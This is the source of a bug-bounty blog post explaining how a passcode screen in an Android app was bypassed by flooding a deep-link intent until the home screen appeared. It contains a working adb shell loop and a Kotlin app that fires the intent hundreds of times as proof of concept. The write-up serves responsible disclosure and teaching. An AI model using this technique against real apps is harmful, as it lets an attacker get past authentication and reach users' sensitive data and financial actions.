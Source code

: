 ```yaml
---
layout: post
title: "Passcode Activity Bypass using Race Condition"
date: 2019-10-18
tag: [Bug bounty, Mobile]

---
```


# Background
An **Activity** is one of the Android's component in an app. It is the screen that the user sees on a mobile app. (For example, the setting's "screen", home "screen, etc). A simple app could have one while more complicated ones could have dozens.

From a security perspective, I normally check if the app components are **exported**, meaning if they can be directly called by other applications. Sometimes these exported apps can be used to bypass restrictions that wasn't intended by the developer.

![Threat model of component hijacking in Android](/assets/img/blog/exportedcomponent.jpg)

## How I was able to exploit this
On this specific bug bounty program, I noticed the application permitted a deep link, for argument sake let's call it `com.android.appname://` which automatically triggered the home activity of the app. However, with a passcode setup it was not possible to access the home page. I would consider accessing this page a sensitive as if an attacker could access the home page of the app, he could access sensitive information including making financial transactions.

I initially tried to fuzz different parameters such as "com.android.appname://login=1" using automation tools but this not get me anywhere. I then had a wild thought of sending this intent multiple times quickly, and this was when I noticed the app showed the home screen briefly before entering the passcode screen.


## Proof of Concept
I then used the simple following code as a PoC, and was able to bypass the passcode screen.

```
while (true); do adb shell am start -a android.intent.action.VIEW -d "com.android.appname://"; sleep 0.15; done
```

No doubt occasionally there were few tapping attemps needed before the app registered the action (due to the timing effect), but it did the job!

I then proceeded to create a simple Android app with my limited Kotlin skills (I admit I struggled but learned a lot)

{% highlight java %}
class MainActivity : AppCompatActivity() {

    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        bigButton.setOnClickListener {
            Log.d("fast", "fast button pressed")
            val url = "com.android.appname://"
            for (n in 1..500) {
                startActivity(
                    Intent(
                        Intent.ACTION_VIEW, Uri.parse(url)
                    )
                )
                Thread.sleep(100)
            }
        }


        button2.setOnClickListener {
            Log.d("medium", "Medium button pressed")
            val url = "com.android.appname://"
            for (n in 1..500) {
                startActivity(
                    Intent(
                        Intent.ACTION_VIEW, Uri.parse(url)
                    )
                )
                Thread.sleep(150)
            }
        }


        button3.setOnClickListener {
            Log.d("slow", "Slow button pressed")
            val url = "com.android.appname://"
            for (n in 1..500) {
                startActivity(
                    Intent(
                        Intent.ACTION_VIEW, Uri.parse(url)
                    )
                )
                Thread.sleep(250)
            }
        }
    }
}
{% endhighlight %}


I created 3 buttons on the app in case the Hackerone reviewer's phone behaved differently to mine.

## Final thoughts
This was an interesting find as I never thought of bypassing passcode activities using timing attack.